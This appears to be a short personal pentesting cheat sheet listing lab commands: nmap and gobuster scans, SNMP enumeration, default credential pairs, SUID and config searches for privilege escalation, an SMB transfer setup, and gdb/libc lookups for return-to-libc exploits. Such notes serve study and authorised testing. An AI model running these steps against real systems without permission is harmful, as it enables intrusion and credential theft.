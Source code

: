 # Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Init contact
- nmap -sC -sV -oA \<name\> \<ip\>
- nmap -p- -sV \<ip\> > all-tcp
- nmap -sU \<ip\> > comm-udp
- nmap --script vuln \<ip\>

# http/https 80/443
- gobuster -u http://xxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
  - remember to recursively scan if needed
- google its software version and find its exploit
- login page => google its default cred
- play around and see whether there is any upload/execute vuln
- check its ssl cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# snmp udp/161
- snmpwalk -c public -v1 <target>
- snmp-check -w -t 30 <target>

# priv esc
- go to /var/www/, read config => get db cred => extract juicy info
- password reuse
- find SUID files => find / -perm -4000 2>/dev/null
- find all files in /home => find /home -type f

# manually test user pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# file 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) impacket-smbserver share \<shared path\>
  - (windows) net use z: \\\\<kali's ip\>\share
  - (windows) copy \<file\> z:

# gdb
r < <(python exp.py)
(or 'set args' if take parameters)

r < input.txt

readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit

strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'

p system => address of function system

info functions => list all functions

vmmap 
=> find which part is executable.
